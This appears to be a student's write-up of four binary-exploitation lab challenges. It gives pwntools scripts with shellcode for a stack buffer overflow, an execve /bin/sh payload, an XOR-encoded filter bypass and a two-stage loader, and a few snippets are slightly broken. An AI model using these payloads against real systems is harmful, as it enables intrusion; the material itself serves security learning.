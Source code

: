 RE2
===========================
See reverse engineered C code.

SIMPLE
===========================

General overview of problems faced
-------------------------------------
Kept overwriting / breaking something on the remote environment - so had to wait a long time to be able to test when the system went down again.

List of vulnerabilities
--------------------
- Lack of data execution prevention

Steps to exploit
------------------
Write shellcode, send shellcode :)

Script/Command used
------------------
``` python

def exploit():
    shellcode = asm(
        "mov rdi, 1000\n"            # rdi = 1000 (fd)
        "lea rsi, [rsp]\n"           # rsi = buffer
        "mov rdx, 0x100\n"           # rdx = 256 bytes to read
        "mov rax, 0\n"               # rax = 0 (syscall number for read)
        "syscall\n"                  # invoke read(1000, buffer, 256)

        "mov rdi, 1\n"               # rdi = 1 (stdout)
        "mov rdx, rax\n"             # rdx = number of bytes read
        "mov rax, 1\n"               # rax = 1 (syscall number for write)
        "syscall\n"                  # invoke write(1, buffer, bytes_read)
    )
    return shellcode

    p = process('./simple')

    shellcode = exploit()
    p.sendline(shellcode)
    p.interactive()
```

SHELLZ
===========================

General overview of problems faced
-------------------------------------
Could not find the offset to overwrite return address correctly (or if I did, I'm honestly not sure what is incorrect)

Needed to ensure that the value written to the return address resulted in the
shellcode being run - allowed by nop sled, which takes most of buffer

List of vulnerabilities
--------------------
- Use of gets() allows for buffer overflow
- Stack is executable so if the return address is overwritten to point to the stack, whatever was written in the buffer can be
written

Steps to exploit
------------------
1. Determine offset to return address
2. Write shellcode exploit
3. Construct payload with proper alignment and addresses. Use the random address provided by program to approximate the location of the shellcode.

Script/Command used
------------------
``` python
offset = 8198
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" 

def exploit(p):
    reply = p.recvlines(3)
    ptr = re.search('0x(.{12})', str(reply[2])).group(0)
    address = int(ptr, 16)
    log.info("Random address pointer: %s | %s" % (ptr, p64(address)))

    nop_sled_size = 100
    nop_sled = b'\x90' * nop_sled_size

    padding_size = offset - len(nop_sled) - len(shellcode)
    padding = b'\x90' * padding_size

    payload = nop_sled + shellcode + padding + p64(address)

    p.sendline(payload)
    p.interactive()

p = remote(HOST, PORT)
exploit()
```

WAF
===========================

General overview of problems faced
-------------------------------------
Difficult to identify how to bypass some bad character restrictions without much assistance in this area.

List of vulnerabilities
--------------------
- Lack of data execution prevention - i.e. once more, stack is executable
- Filtering of input data only handles basic cases and can be bypassed through obfuscation
- System allows user to use execve to spawn shell

Steps to exploit
------------------
1. Identify stack pointer
2. XOR /bin/sh string to avoid bad characters being detected by firewall
3. Build and execute shellcode - encoded string can be decoded by xor and execve syscall can be invoked on decoded string passed as first argument
4. Send payload

Script/Command used
------------------
```python
reply = p.recvlines(3)
stack_ptr = re.search('0x(.{12})', str(reply[2])).group(0)
address = int(stack_ptr, 16)
log.info("Buffer address: %s | %s" % (stack_ptr, p64(address)))

# we will decode the encoded bin_sh string using xor
bin_sh = "/bin/sh"
xor_key = 0x20 
encoded_bin_sh = ''.join([chr(ord(c) ^ xor_key) for c in bin_sh]) 
encoded_bin_sh_hex = encoded_bin_sh[::-1].encode('latin-1').hex()
first_chunk = encoded_bin_sh_hex[:16].ljust(16, '0') 
second_chunk = encoded_bin_sh_hex[16:].ljust(16, '0')

shellcode = asm(
    "xor rsi, rsi\n"            
    "xor rdx, rdx\n"   
                
    "xor rax, rax\n"
    f"mov rax, 0x{first_chunk}\n"  
    "push rax\n"
    f"mov rax, 0x{second_chunk}\n"
    "push rax\n"

    "mov rdi, rsp\n"

    f"mov rbx, {hex(xor_key)}\n"
    "mov rax, [rdi]\n"
    "xor rax, rbx\n"
    "mov [rdi], rax\n"
    
    "mov rax, 59\n" 
    "syscall\n"
)

payload = shellcode
p.send(payload)
p.interactive()
```

FIND-ME
===========================

General overview of problems faced
-------------------------------------
Finding offset for big buffer was challenging.

List of vulnerabilities
--------------------
Executes shellcode provided.

Steps to exploit
------------------
1. Find the address of the big buffer by finding its offset from rbp or rsp, the small shellcode can simply call to that address.
2. Big shellcode is identical to simple.

Script/Command used
------------------
``` python

big_shellcode = asm(
    "mov rdi, 1000\n"            # rdi = 1000 (fd)
    "lea rsi, [rsp]\n"           # rsi = buffer
    "mov rdx, 0x100\n"           # rdx = 256 bytes to read
    "mov rax, 0\n"               # rax = 0 (syscall number for read)
    "syscall\n"                  # invoke read(1000, buffer, 256)

    "mov rdi, 1\n"               # rdi = 1 (stdout)
    "mov rdx, rax\n"             # rdx = number of bytes read
    "mov rax, 1\n"               # rax = 1 (syscall number for write)
    "syscall\n"                  # invoke write(1, buffer, bytes_read)
)

small_shellcode = asm(
    "mov rax, [rbp - 0x28]\n"
    "call rax\n" 
)   

if __name__ == '__main__':
    p = remote(HOST, PORT)
    p.sendline(small_shellcode)
    p.sendline(big_shellcode)
    p.interactive()

```

